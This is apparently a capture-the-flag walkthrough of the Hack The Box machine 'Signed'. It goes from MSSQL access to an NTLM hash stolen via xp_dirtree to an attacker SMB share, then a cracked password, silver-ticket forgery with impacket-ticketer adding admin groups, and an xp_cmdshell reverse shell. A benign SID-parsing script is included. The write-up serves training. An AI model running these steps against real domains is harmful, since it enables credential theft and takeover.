```
Scope:
10.10.11.90

Credentials:
scott
Sm230#C5NatH
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -Pn -T5 -vvvv --min-rate=5000 10.10.11.90

PORT     STATE SERVICE  REASON  VERSION
1433/tcp open  ms-sql-s syn-ack Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2025-10-16T07:20:52+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.90:1433: 
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| ms-sql-info: 
|   10.10.11.90:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
```

## 1433/TCP - MSSQL

Using the given credentials we are able to login using `impacket`:



We quickly find out that we have insufficient privs:



Let's start off by enumerating the db's first:



Our user can't impersonate anyone else:



### metasploit

In order to automate the process we can use `msfconsole` instead with the following module:



Funny enough the module tells us `xp_cmdshell` is in fact enabled





We find another service account:



I then used another module to enumerate all domain users since it seemed domain-linked:



### XP_Dirtree Hash Stealing

Using the following command, in combination with `responder` we can steal the hash of *mssqlsvc*. 

```sql
xp_dirtree \\10.10.14.4\test
```



Using `john` we can easily crack the hash:



```
mssqlsvc
purPLE9795!@
```

Using `impacket` we can now log in with this user:



Unfortunately we still can not execute commands freely.

# Foothold
## Silver Ticket

What we can do however is craft up a silver ticket. We'll need the following for this:

- SPN password hash
- Domain SID
- Target SPN

We can find the SID



Since this isn't human readable I generated a `python` script using AI which I then used to make it readable:

```python
#!/usr/bin/env python3
"""
Convert SQL/varbinary-style SIDs (e.g. b'0105000000...') or hex strings into the
human-readable Windows SID form: S-<revision>-<identifier-authority>-<subauth>-...

Usage (CLI):
    python3 sid_parse.py "b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'"

Or feed plain hex:
    python3 sid_parse.py 0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000

Or import:
    from sid_parse import parse_sid, domain_sid, rid_from_sid
"""
import sys
import re
from typing import Tuple, List


def _normalize_input(s: str) -> bytes:
    """
    Accepts:
      - "b'01050000...'"
      - "0x01050000..."
      - "01050000..."
      - raw bytes representation (not typical from SQL)
    Returns bytes interpreted from hex.
    """
    if isinstance(s, bytes):
        return s

    s = s.strip()

    # SQL output often looks like: b'0105000000000005...'
    m = re.match(r"^b'([0-9a-fA-F]+)'\s*$", s)
    if m:
        hexstr = m.group(1)
        return bytes.fromhex(hexstr)

    # Remove potential 0x prefix
    if s.startswith("0x") or s.startswith("0X"):
        s = s[2:]

    # If it's plain printable hex (even length), use it
    if re.fullmatch(r"[0-9a-fA-F]+", s) and len(s) % 2 == 0:
        return bytes.fromhex(s)

    # Last resort: try to remove non-hex characters and decode
    cleaned = re.sub(r"[^0-9a-fA-F]", "", s)
    if len(cleaned) % 2 == 1:
        raise ValueError("Hex string has odd length after cleaning.")
    return bytes.fromhex(cleaned)


def parse_sid(input_value: str) -> str:
    """
    Parse the binary SID and return the textual SID e.g. S-1-5-21-...
    Accepts SQL varbinary-like strings and plain hex strings.
    """
    b = _normalize_input(input_value)
    if len(b) < 8:
        raise ValueError("Binary SID too short.")

    rev = b[0]
    sub_count = b[1]
    id_auth = int.from_bytes(b[2:8], "big")

    # Validate length
    expected_len = 8 + (4 * sub_count)
    if len(b) < expected_len:
        raise ValueError(f"Binary SID shorter than expected for {sub_count} subauthorities.")

    subs: List[int] = []
    offset = 8
    for i in range(sub_count):
        sub = int.from_bytes(b[offset:offset + 4], "little", signed=False)
        subs.append(sub)
        offset += 4

    sid_parts = ["S", str(rev), str(id_auth)] + [str(x) for x in subs]
    return "-".join(sid_parts)


def domain_sid(sid_text: str) -> str:
    """
    Return the domain SID (everything except the last RID).
    Example:
      input:  S-1-5-21-4088429403-1159899800-2753317549-1105
      output: S-1-5-21-4088429403-1159899800-2753317549
    """
    parts = sid_text.split("-")
    if len(parts) < 4:
        raise ValueError("SID format unexpected.")
    # remove last element (RID)
    return "-".join(parts[:-1])


def rid_from_sid(sid_text: str) -> str:
    parts = sid_text.split("-")
    if len(parts) < 4:
        raise ValueError("SID format unexpected.")
    return parts[-1]


def _cli_main(argv):
    if len(argv) < 2:
        print("Usage: sid_parse.py <hex-sid-or-SQL-b'...'> [more values...]")
        sys.exit(2)

    for token in argv[1:]:
        try:
            sid = parse_sid(token)
        except Exception as e:
            print(f"[ERROR] Could not parse '{token}': {e}")
            continue

        dom = domain_sid(sid)
        rid = rid_from_sid(sid)
        print(f"Input: {token}")
        print(f" SID : {sid}")
        print(f" DOM : {dom}")
        print(f" RID : {rid}")
        print("-" * 60)


if __name__ == "__main__":
    _cli_main(sys.argv)
```

This worked like a charm when testing the IT group:



### ticketer

Using this knowledge we can use `impacket-ticketer` to create a silver ticket.

```bash
impacket-ticketer -nthash <controledSPNUserNT> -domain-sid <targetdomainSID> -domain <targetDomain> -spn <SPN service> -user-id <impersonateuserSID> -groups <impersonateGroup> <impersonateUsername>
```

To form the `nthash` we can use the following method:





```bash
impacket-ticketer -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' -domain signed.htb -spn mssql/dc01.signed.htb -groups 1105 IT
```

Now we can save the ticket:




Using the forged ticket we can now login as the administrator account:



## Reverse Shell as mssqlsvc

Using the following commands we get ourselves a reverse shell:

```sql
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXECUTE xp_cmdshell '<cmd>'
```





### user.txt



# Privilege Escalation
## File Read - UNINTENDED way

>[!warning]
>While this is the UNINTENDED way according to the box creator, this still works and also shows that the target is vulnerable to this attack:
>
>

We find the user SID



Having this knowledge we can use `ticketer` again:

```bash
impacket-ticketer -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' -domain signed.htb -spn mssql/dc01.signed.htb -groups 1105,512,519 -user-id 1103 mssqlsvc
```



Using the above command we have created a ticket where we impersonate ourselves as an Administrative account. This way we can achieve file read:


While this didn't work, the following did:




---